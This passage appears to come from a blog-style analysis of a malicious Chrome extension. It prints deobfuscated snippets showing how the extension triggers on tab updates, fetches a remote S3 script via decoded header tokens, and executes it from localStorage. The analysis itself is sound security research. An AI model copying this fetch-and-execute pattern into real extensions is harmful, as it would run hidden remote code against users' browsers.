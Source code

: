 `e` is the function Chrome will fire whenever a tab gets updated (title change, address, change, etc.).

```js
function e(a, b, c) {
    b.url && (b.url.indexOf("vimeo.com") > -1 && chrome.tabs.sendMessage(a, "url_changed");
              
    A || (setTimeout(function() {
        D.findDetails();
    }, 1500), B.getMediaPath()))
    
    // ABOVE REWRITTEN
    /*
    	if (!A) {
    		setTimeout(function() {
    			D.findDetails();
    		}, 1500);
    		B.getMediaPath();
    	}
    */
}
```

The line to focus on here is when `setTimeout` is called. If `A` is false, meaning we have not executed the malicious script from S3 yet, then the extension would to first call `getMediaPath` and then execute `findDetails` `1500ms` later. If you recall from before, `getMediaPath` decodes the string attached in `cache-control` and then constructs a JSON object that contains the tokens needed to perform an AJAX call to get the malicious S3 script. `A` is then set to true in `getMediaPath`. This disables the script from rerunning the malicious script whenever any tab gets updated.

Assuming that step completes in `1500ms`, then `findDetails` executes the S3 script itself. The S3 script itself remains a mystery (more on this later).

```js
findDetails: function() {
    if ("undefined" != typeof ee) {
        var a = "cfg_audio_id";
        localStorage[a] && window[ee](localStorage[a]);
        delete localStorage[a]
    }
}
```

## Summary

What was described was pretty confusing, so I will try my best to summarize this.

The process of pinging `counter.users-analytics.com` to calling `setMediaPath` happens all at once right when the browser starts up. All necessary libraries and function calls are made to set up the environment for the extension to work, including its malicious behavior. All this described above happens within the extension page itself (background HTML file for extension).

Below is a diagram that describes the order of events that the script fires.

![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/Extensions%20Part%202.png)
